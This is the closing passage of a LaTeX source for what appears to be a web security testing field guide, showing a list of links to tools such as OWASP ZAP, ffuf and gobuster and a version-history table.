  \item \textbf{OWASP ZAP}: \url{https://www.zaproxy.org/}
  \item \textbf{ffuf}: \url{https://github.com/ffuf/ffuf}
  \item \textbf{gobuster}: \url{https://github.com/OJ/gobuster}
  \item \textbf{feroxbuster}: \url{https://github.com/epi052/feroxbuster}
  \item \textbf{SecLists}: \url{https://github.com/danielmiessler/SecLists}
\end{itemize}

% ============================================================
\section{Document History}
% ============================================================

\begin{table}[h]
\centering
\begin{tabular}{@{}llp{8cm}@{}}
\toprule
\textbf{Version} & \textbf{Date} & \textbf{Changes} \\
\midrule
1.0 & 2025-01-01 & Initial field guide \\
2.0 & 2026-01-21 & Comprehensive expansion: added bypass techniques, complete automation scripts, multi-language remediation examples, testing checklists, evidence collection framework \\
\bottomrule
\end{tabular}
\caption{Document revision history}
\end{table}

\end{document}
